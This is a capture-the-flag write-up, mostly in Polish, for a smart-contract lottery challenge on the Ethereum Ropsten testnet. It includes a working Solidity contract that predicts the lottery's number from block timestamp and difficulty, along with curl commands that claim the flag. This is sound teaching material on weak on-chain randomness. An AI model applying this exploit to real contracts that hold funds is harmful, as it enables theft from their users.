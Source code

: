 # Różdżka chaosu, Kości ze starcem, smart contracts

## Opis

"W zachodniej części Dębiny, przy wejściu do tak zwanego Labiryntu, siedzi samotny starzec. Może dotrzymasz mu towarzystwa?"

Transaction verification

`GET /transaction/:tx`

Endpoint used to check wthether :tx transation is the winning one (it should emit winning event). Result:

- 400 - invalid parameters,
- 403 - wrong transaction,
- 200 - winning transaction, response:
```
{address: "<winning address>"}
```
Sample:

`curl -v https://rozdzka.securing.pl/transaction/0x63942d3e5ff7278a623f314a85b6e3c9b31f34b84736f59f07fbfd6a50e49a05`


Solution verification

`POST /getflag/:tx`

with body:

`signature=:signature`

Endpoint used to prove the ownership of winning address (from transaction :tx) using the signature (parameter signature).

The signature parameter must be the following message I won! signed by the winning address (using signMessage function from Web3 provider).

Result:

- 400 - invalid parameters,
- 403 - wrong transaction or signature,
- 200 - flag, response:
```
{flag: "<flag>"}
```
Sample:

`curl -v --data signature=0x2e5646caf2e309017f393b951b3e960657ebe676f36f0a5f5e50abbb83ee66072e075bf0e7719eb85a07a5e8bd49bef22cde3548e4a26b08bf0633e1ecb416291a https://rozdzka.securing.pl/getflag/0x63942d3e5ff7278a623f314a85b6e3c9b31f34b84736f59f07fbfd6a50e49a05`

## Rozwiązanie

Odwiedzamy starca, który kieruje nas do [https://ropsten.etherscan.io/address/0xcA3E3EB78c308BC60e2130004F1Be37858DFd43A](https://ropsten.etherscan.io/address/0xcA3E3EB78c308BC60e2130004F1Be37858DFd43A).
Kod kontraktu dostępny jest w pliku [Lottery.sol](./Lottery.sol).

Musimy podać poprawny numer aby został wyemitowany event LotteryWinner.
Do rozwiązania wykorzystałem konto [Metamask](https://metamask.io/) oraz [Remix](https://remix.ethereum.org/)

Tworzymy kontrakt, który wywoła metodę oryginalnego kontraktu z odpowiednią wartością (ponieważ będziemy znali timestamp oraz trudność bloku):

```
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.6;

interface ILottery {
	function play(uint256 candidate) external;
}

contract MyContract {
  function callMe(address addr)
		external
  {
	  ILottery lot = ILottery(addr);
	  uint256 h = uint256(keccak256(abi.encodePacked(block.timestamp, block.difficulty)));
		lot.play(h);
  }
}
```

kompilujemy kontrakt i deployujemy go (wszystko na stronie Remix).

![deploy](img/deploy.png)

następnie wywołujemy metodę `callMe` podając adres docelowego kontraktu jako parametr.

![callMe](img/callMe.png)

po chwili sprawdzamy i widzimy, że nasza transakcja powiodła się:

![callMe2](img/callMe2.png)

sprawdźmy czy nasza transakcja jest wygrywająca:
```
curl -v https://rozdzka.securing.pl/transaction/0x7e0883b811d1daad29409e35f687f9ea3fb70238ea877d70b05a51cd5fe50e15
```
w odpowiedzi dostajemy:

![res](./img/response.png)

i widzimy, że transakcja jest wygrywająca! Teraz wystarczy podpisać wiadomość `I won!` i odebrać flagę:

![sign](./img/sign.png)

```
curl -v --data signature=0xdc61779ab284f6d2a13b6b8313325759712e605dd352d2c8695c52c12ea1b7760457c739ca308f3e85e7d238170431ac71be69008d906db74462ab18f24cd5271b https://rozdzka.securing.pl/getflag/0x7e0883b811d1daad29409e35f687f9ea3fb70238ea877d70b05a51cd5fe50e15
```

![win](./img/win.png)
